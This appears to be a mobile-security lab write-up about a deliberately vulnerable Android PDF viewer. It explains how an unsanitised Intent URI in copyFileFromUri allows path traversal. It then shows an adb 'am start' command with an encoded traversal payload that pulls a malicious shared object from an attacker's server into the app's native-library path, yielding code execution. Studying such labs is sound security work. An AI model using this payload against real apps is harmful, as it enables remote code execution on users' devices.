 # Analysis
1. The app is load and render PDF file that chosen by the user.

2. The application `MainActivity.onCreate` is call 2 function.
![mainactivity](images/main.png)

3. The `handleIntent` is make the application able to received incoming `Intent` and when the user try open PDF file from file manager or other app, this app will able to chose as pdf viewer.
![handleIntent](images/handleIntent.png)

4. The `loadProLibrary` is loaded shared object `libdocviewer_pro.so` inside app path `/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/` and if the shared object is successfully loaded, it will set `proFeaturesEnabled` to `true`.
![loadProLibrary](images/load%20pro%20lib.png)

5. Inside the shared object `libdocviewer_pro.so`, we assumed there is a function named `initProFeatures` that will be called if `libdocviewer_pro.so` is successfully loaded, because there is constructor for this function but not exists in any class.
![native function initProFeatures](images/initProFeatures.png)

6. `handleIntent` function is called function `copyFileFromUri` from class `CopyUtil`, this function is to download file from Uri provided from `Intent` and saved as "download.pdf" if at the end url is not a filename with extension in it.
![handleIntent copyFileFromUri](images/handle%20intent%20and%20load.png)
![copyFileFromUri](images/copyFileFromUrl%20vuln%20code.png)

7. Inside `copyFileFromUri` is called function `CopyUtil$Companion$copyFileFromUri$1` which will created directory if the directory from uri provided from `Intent` is not exists.
![create directory](images/function%20mkdirs.png)

8. Function `copyFileFromUri` is vulnerable to `path traversal` becaused it's not sanitized the Uri path that provided user using `Intent`, which allow attacker to craft uri to download file malicious file.
![vuln path traversal](images/path%20traversal%20vuln.png)

9. Based on the analysis, we know to gained RCE is by creating malicious shared object and download the shared object file using function `copyFileFromUri` which can triggered using `Intent` and write to the path that will loaded by function `loadProLibrary.so`

# Exploitation
1. First time run the application, we can see the application is try to load library `libdocviewer_pro.so`.
![load lib not found](images/load%20pro%20so%20not%20found.png)

2. First created our malicious shared object in `Android Studio` with the code c++ as below.
![android cpp](images/android%20cpp.png)
![android cmake](images/android%20cmake.png)

3. Build the shared object by navigate to Build > Make Project and copy the builded so file into folder `www`.

4. To trigger `Intent` we use `am` command with malicious url that exploit the path traversal.
```sh
am start -a android.intent.action.VIEW -d "http://192.168.188.200:5000/..%2f..%2f..%2f..%2f..%2f..%2f..%2fdata%2fdata%2fcom.mobilehackinglab.documentviewer%2ffiles%2fnative-libraries%2farm64-v8a%2flibdocviewer_pro.so" -t application/pdf
```

5. But first, we create an HTTP server using Python Flask that returns the malicious shared object we just created, regardless of the path requested by the client.
![python server](images/run%20web%20server.png)

6. After run the `am` command in adb shell, chose the app.
![Chose app](images/chose%20app.png)

7. After successfully download our malicious shared object, in adb log will show error render pdf file that navigated to our exploit shared object path, which mean the application is success to download the file and write to path based on our payload.
![incoming http request](images/web%20server%20received%20request.png)
![error render](images/error%20render.png)

8. Rerun the application, and we'll see our malicious shared object is successfully loaded.
![malicous so loaded](images/malicious%20app%20loaded.png)

9. And check in app path and the system command successfully executed and created file based on our code for the shared object file.
![gained RCE](images/success%20write%20so.png)